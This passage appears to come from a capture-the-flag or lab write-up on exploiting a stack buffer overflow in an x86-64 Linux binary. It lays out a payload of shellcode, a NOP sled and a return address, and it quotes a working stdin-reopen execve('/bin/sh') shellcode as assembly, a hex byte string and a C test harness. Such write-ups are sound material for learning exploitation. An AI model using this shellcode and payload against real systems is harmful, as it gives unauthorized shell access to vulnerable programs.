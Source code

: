 Our plan is to create the payload like that:  
```
shellcode (size of x) + 0x90 (size of 136-x) + <address to the start of the shellcode>
```

We already have the address to the start of the shellcode `0x7fffffffe590`. We just need to find a shellcode.  

### Shellcode  
None of the [X86–64 shellcodes](https://shell-storm.org/shellcode/index.html) worked for me, eventually, I found [this](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html)https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html shellcode to work.

Shellcode:  
```c++
/* https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html 
  gcc -z execstack -o shell shell.c */
/* stdin reopen & execve /bin/sh shellcode for Linux/x86_64 */

/* 
   0x600880 <code>:    xor    rax,rax
   0x600883 <code+3>:  push   rax
   0x600884 <code+4>:  pop    rdi
   0x600885 <code+5>:  mov    al,0x3
   0x600887 <code+7>:  syscall   ; close(0)
   0x600889 <code+9>:  push   rax
   0x60088a <code+10>: movabs rdi,0x7974742f7665642f
   0x600894 <code+20>: push   rdi
   0x600895 <code+21>: push   rsp
   0x600896 <code+22>: pop    rdi
   0x600897 <code+23>: push   rax
   0x600898 <code+24>: pop    rsi
   0x600899 <code+25>: mov    si,0x2702
   0x60089d <code+29>: mov    al,0x2
   0x60089f <code+31>: syscall ; open("/dev/tty", O_RDWR|O_NOCTTY|O_TRUNC|O_APPEND|O_ASYNC)
   0x6008a1 <code+33>: push   rax
   0x6008a2 <code+34>: movabs rdi,0x68732f2f6e69622f
   0x6008ac <code+44>: push   rdi
   0x6008ad <code+45>: push   rsp
   0x6008ae <code+46>: pop    rdi
   0x6008af <code+47>: push   rax
   0x6008b0 <code+48>: push   rdi
   0x6008b1 <code+49>: push   rsp
   0x6008b2 <code+50>: pop    rsi
   0x6008b3 <code+51>: cqo    
   0x6008b5 <code+53>: mov    al,0x3b
   0x6008b7 <code+55>: syscall   ; execve("/bin//sh", ["/bin//sh"], NULL)
*/

char code[] = 
"\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05"
"\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05"
"\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05";

void main(void) {
    void (*f)() = (void(*)())code;
    f();
}
```
